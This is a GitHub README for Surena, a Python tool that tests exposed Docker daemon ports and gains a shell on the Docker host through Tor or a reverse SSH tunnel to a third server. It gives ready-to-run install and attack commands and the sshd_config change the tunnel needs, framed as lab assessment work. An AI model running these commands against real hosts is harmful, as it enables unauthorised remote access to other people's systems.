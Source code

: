 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To understand more about how Surena works and how to use these methods, please refer to our Medium article: [article](https://medium.com/@norouzzadegan/69628c4be503). The name Surena is derived from a Parthian(Iranian) spahbed from the first century BC. For further information, you can visit the [Wikipedia](https://en.wikipedia.org/wiki/Surena) page on Surena.

## Installation

Surena can be installed from PyPI by running:

```bash
pip install surena
```

Once installed, Surena can be run using the following commands in your terminal. To view available commands and options, use:

```bash
surena --help
```

## Using
Surena offers two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command checks if the Docker daemon's port is accessible from the network. To understand its options, run:

```bash
surena is-docker-host --help
```

For example, execute the command with these options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run:

```bash
surena get-docker-host --help
```
Please note, if Surena can gain shell access from the Docker host, it will create a text file named "WARNING.surena" in the "/root/" path of the Docker host.
For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that in the remote SSH server or in the `THIRD_SERVER_IP`, which has already been mentioned, the "GatewayPorts" configuration in the `sshd_config` file located at `/etc/ssh/sshd_config` should be changed from `GatewayPorts no` to either `GatewayPorts clientspecified` or `GatewayPorts yes` to enable it.

Additionally, ensure to replace `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` with the appropriate values.


## Warning
Surena is intended for lab use and to help you understand whether your Docker daemon is secure or insecure. **PLEASE DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.**

## Donate
If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be grateful if you could consider supporting us by donating Dogecoin or Tether. 

Dogecoin: `DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA` \
USDT (TRC20): `TXcb1yTW71QZhqVEFx3Y1JGZVu384Mt17B`
